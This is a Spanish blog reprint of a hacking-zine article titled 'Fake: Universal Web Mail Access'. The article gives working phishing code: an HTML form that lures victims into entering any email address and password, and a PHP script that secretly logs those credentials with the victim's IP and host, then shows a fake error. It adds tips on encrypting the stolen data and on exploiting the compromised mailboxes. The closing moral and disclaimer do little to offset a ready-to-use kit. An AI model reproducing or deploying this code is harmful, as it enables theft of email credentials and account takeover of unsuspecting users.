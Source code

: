 ```yaml
---
layout: post
post_id: fakemail
lang: es
title: "DTFzine #2 Fake: Universal Web Mail Access"
description: "Cómo explotar un viejo truco para conseguir nombres de usuario y passwords"
keywords: "email, fake, trucos, seguridad, nombre, usuario, hacking, dtfzine"
comments: false
categories: 
  - article
---
```



    Fake: Universal-Web-mail-Access
    DTFzine #2
    Autor: NaTaSaB
    Web: http://www.merlos.org
    e-mail: www.merlos.org

## Introducción

Bueno, en este artículo vamos a explotar un viejo truco para conseguir nombres de usuario y passwords. Ya hace años salió el famoso fake de hotmail. La picaresca consistia en hacer creer al usuario que se encontraba en la página de hotmail.com, cuando en realidad estaba en una copia albergada en el servidor del "jaker" con aspecto idéntico al de la portada de hotmail. Sin embargo nuestra misión en este caso será hacer creer al usuario que puede acceder a cualquier cuenta de correo desde nuestra página. Para ello, implementaremos un pequeño y sencillo script escrito en PHP que hará el trabajo de recolector de información. También necesitamos un formulario que ha de cumplimentar nuestra víctima:

{% highlight html %}

	<------ CuT HERE ----------->

    <form name="form1" method="post" action="mail.php">
    Usuario: 
    <input type="text" name="user" />
    @
    <input type="text" name="server" />
    [Ej: mail@server.com or for pop3 account user @ pop3.server.com]&lt;br/&gt;
    <br />
    Password: 
    <input type="text" name="password" />
    <input type="submit" name="Submit" value="Submit" />
    </form>

<------ End of CUT ---------->
{% endhighlight %}

Este formulario es lo que tendría que pegar dentro del BODY de la página HTML el malintencionado Webmaster. Por otra parte, no estaría de más adornarlo un poquito, con algún slogan impactante al más puro estilo americano o poner algo tipo "Powered by AllWebmails.com" o similar.
	
El código del CGI es el siguiente y ha de estar en un fichero HTML con el nombre mail.php (el que pone en el action del <form>)

{% highlight php %}
	<----- Begin of PHP code ------>

<?php 	
	//Comprobamos q haya metido todos los datos
	if (!$user || !$server || !$password ) 
		die ("Por favor, rellene todos los campos del formulario");

	// Guardamos los datos en un fichero de texto.Además guardamos la fecha e IP.

	$file="info.dat";

	if (!($fp=fopen ($file,"a"))) 
		die ("Ocurrió un fallo al consultar las Bases de Datos.");
	$date=date("D d/M/Y H:i",time());
	$host = gethostbyaddr($REMOTE_ADDR);
	$line=$date ." ". $REMOTE_HOST ." " . $REMOTE_ADDR . 
		" [" . $host . "] " . "$user @ $server $password\n\r";
	fwrite($fp,$line);
	fclose($fp);
	//Por último, decimos q no pudimos acceder al servidor

	echo "&lt;h3&gt;Lo sentimos, pero no pudimos acceder a su cuenta en $server.&gt;/br&gt;&lt;/h3&gt;";
	echo "Asegurese de que introdujo los datos correctos.<BR>";	
	echo "Inténtelo desde la página WEB del servidor. Gracias";
?>
{% endhighlight%}
Si no quieres guardar la información en plain text mira en la librería de funciones mcrypt (mcrypt_encrypt y mcrypt_decrypt) si el server en el q alojas la web tiene habilitado ese modulo. También puedes usar un simple XOR te llega.
 	
Como ya has visto con unas pocas líneas podemos obtener datos comprometidos de un usuario, y nos los habrá dado él. Piensa que que si entramos en su cuenta de correo obtendremos mucha información acerca de ese usuario (nombre, edad, nacionalidad, gustos, aficciones, otros passwords...), incluso podremos conseguir sus datos de conexión, y puede que cuenta corriente, ya que algunos ISP utilizan el mismo password para los datos de conexión y para el e-mail.

Moraleja: Hay que ser cauto a la hora de enviar datos de usuario y passwords por la red, especialmente páginas web ajenas a la propia ya que puede haber espavilados que intenten aprovecharse de nosotros, a veces incautos navegantes, ignorantes de los maliciosos planes de estos desalmados xDDDD

Nota: Este texto se distribuye con fines educativos. El autor no se hace responsable de los usos ilícitos que de esta información se pueda hacer. DTFzine.